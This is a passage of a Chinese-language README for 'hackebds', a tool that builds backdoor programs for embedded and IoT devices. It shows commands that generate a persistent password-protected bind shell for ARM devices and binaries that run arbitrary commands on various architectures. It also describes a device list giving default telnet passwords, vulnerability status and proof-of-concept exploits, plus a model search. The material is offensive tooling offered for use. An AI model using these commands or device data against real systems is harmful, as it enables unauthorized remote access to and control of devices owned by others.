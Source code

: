 ```
hackebds -bind_port 8081 -arch armelv7 -res bind_shell -passwd 1231 -power
```

​	bind_shell进程不会断开后停止，支持到重复连接（目前此功能powerpc与sparc系列还不受支持）

![image-20221102182939434](https://img-blog.csdnimg.cn/img_convert/05ebc0b42efcb42f58eef4815b3b08dc.png)



 ~~生成执行指定命令的程序文件，需要注意的由于执行的是execve系统调用需要指定执行文件的完整路径才能正常执行~~

​	生成cmd_file功能被更新，只需要指定-cmd参数即可生成各种架构执行对应命令的程序.

```
hackebds  -cmd "ls -al /" -arch powerpc  -res cmd_file
```

​	如果需要指定执行对应的程序可以使用 -shell execute_file_path -cmd agrs

```
 -shell execute_file_path -cmd agrs
```

![image-20230106153459125](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153459125.png)

在指定型号生成后门的功能中加入了输出型号与架构对应的列表关系，方便使用者观察修改，在0.3.5版本之后输出信息将会的到加强如（目前总共收入了60设备信息，POC40+左右）：

设备的作用

设备的架构

设备CPU厂商

设备CPU型号

设备的WEB服务程序

设备默认SSH服务支持

能否实现监听

设备默认telnet用户密码

设备sdk支持

设备的openwrt支持

设备是否存在漏洞

POC输出

```
hackebds -l
```

![image-20230213105027599](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20230213105027599.png)

加入了对设备信息的检索，使用-s可以针对-model参数进行搜索此搜索是模糊搜索且大小写不敏感，在输入时尽量使用小写输出与输入匹配度最高的设备信息.

```
hackebds -model ex200 -s
```
